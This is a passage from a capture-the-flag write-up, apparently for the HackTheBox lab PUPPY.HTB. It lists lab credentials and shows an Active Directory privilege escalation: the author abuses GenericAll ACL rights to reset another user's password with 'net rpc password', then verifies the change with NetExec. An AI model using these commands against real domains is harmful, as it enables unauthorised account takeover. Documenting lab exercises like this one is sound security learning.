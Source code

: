 | Username    | Password    |
| ----------- | ----------- |
| ant.edwards | Antman2025! |

## Foothold

## Privilege Escalation to adam.silver

### Access Control List (ACL) GenericAll Abuse

Now with the password of `ant.edwards` we started working on the `privilege escalation` to `adam.silver` abusing `GenericAll` permissions due to the `SENIOR DEVS` group.

![](images/2025-05-17_22-00_bloodhound_antedwards_permissions.png)

We `changed` the `password` of `adam.silver` and `verified` it using `NetExec`. Unfortunately the `account` was `disabled` (`STATUS_ACCOUNT_DISABLED`).

```shell
┌──(kali㉿kali)-[~]
└─$ net rpc password "adam.silver" "newP@ssword2022" -U "PUPPY.HTB"/"ant.edwards"%'Antman2025!' -S "10.129.184.6"
```

```shell
┌──(kali㉿kali)-[~]
└─$ netexec ldap 10.129.184.6 -u "adam.silver" -p "newP@ssword2022"
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
LDAP        10.129.184.6    389    DC               [-] PUPPY.HTB\adam.silver:newP@ssword2022 STATUS_ACCOUNT_DISABLED
```
